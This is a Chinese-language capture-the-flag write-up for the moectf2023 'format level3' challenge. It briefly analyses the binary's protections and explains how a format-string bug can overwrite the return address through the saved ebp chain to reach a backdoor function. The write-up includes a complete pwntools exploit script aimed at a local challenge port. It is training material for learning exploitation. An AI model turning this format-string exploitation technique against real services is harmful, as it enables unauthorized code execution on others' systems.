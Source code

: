 ```yaml
---
title: moectf2023 - format level3
date: 2023/9/26 12:00:00
tags:
    - noob
excerpt: 通过利用ebp间接改写返回地址，成功利用后门漏洞解决format level3题目。
---
```


## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

和level2类似，存在后门，但是输入的str放到了.bss上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
